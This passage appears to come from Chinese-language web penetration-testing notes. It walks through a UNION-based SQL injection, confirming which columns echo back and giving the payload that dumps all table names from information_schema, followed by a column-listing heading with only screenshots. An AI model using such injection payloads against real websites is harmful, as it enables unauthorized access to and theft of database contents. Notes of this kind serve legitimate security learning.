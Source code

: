确认回显点是2,3



## 查询出全部表名

```sql
group_concat(table_name) from information_schema.tables where table_schema=database()
```

构造的sql语句就是：

```sql
id=1' and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

pic

![image-20241212222529922](./Web%E6%B8%97%E9%80%8F.assets/image-20241212222529922.png)

知道了所有的表

## 查询出表的所有的列

pic

![image-20241212222904786](./Web%E6%B8%97%E9%80%8F.assets/image-20241212222904786.png)
